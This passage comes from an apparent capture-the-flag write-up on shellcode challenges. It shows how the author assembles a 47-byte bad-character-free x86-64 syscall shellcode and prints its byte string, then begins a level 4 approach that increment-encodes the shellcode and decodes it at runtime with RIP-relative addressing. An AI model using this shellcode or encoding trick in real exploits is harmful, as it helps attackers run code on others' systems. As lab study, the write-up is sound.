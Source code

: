 ```
syscall
```

Assembling it:

```bash
$ echo; nasm -f bin ./shellcode3.asm; xxd -c 1 ./shellcode3 | awk '{print "\\x"$2 }' |tr -d '\n'; echo; wc -c ./shellcode3

\x6a\x01\x5b\xfe\xcb\x53\x58\x53\x5f\x54\x5e\x6a\x12\x5a\x0f\x05\x53\x58\xfe\xc0\xfe\xc0\x57\x56\x5f\x5e\x0f\x05\x50\x56\x57\x5e\x58\x5f\x6a\x7f\x5a\x0f\x05\x53\x58\xfe\xc0\x50\x5f\x0f\x05
47 ./shellcode3
```

Haha! No bad chars *and* three bytes to spare! 


Level 4
-------

I wasn't laughing anymore once I saw the restrictions placed on the shellcode of level 4:

```
This level have shellcode restriction. Bad char list "\x0a\x0d\x2f\xff\x0f\x05\x48" max size 80 bytes.
```

This bans the use of `syscall`, which assembles to `0x0f, 0x05`. In theory, I think `int 0x80` (`cd 80`) could be used, but I haven't verified. The shellcode needs to be obfuscated and decoded at runtime somehow. I decided to make a very simple encoding & decoding system: the bytes are simply increased by one. At runtime, a small stub of code is responsible for decrementing each byte to it's proper value. 

I've made use of a cool trick available on the 64-bit architecture: RIP-relative addressing. Normally, to get the address at which something is running, we'd do this:

```
jmp _over_the_shellcode         ; jmp short, assembles to 0xeb + 8 bit signed displacement

_getInstructionPointer:
pop rbx                         ; rbx now contains the address of _location

; ...shellcode bytes...

_over_the_shellcode:
call _getInstructionPointer     ; call backward, assembles to 0xe8 and a 32 bit signed displacement

_location:
```

However, this `jmp/call/pop` sequence to get the current location of code would introduce `0xff` bytes due to the relative call backwards. We can't use this, but luckily RIP-relative addressing comes to the rescue!

```
lea rax, [rel _shellcode]    ; notice the use of the rel keyword!

_shellcode:
```

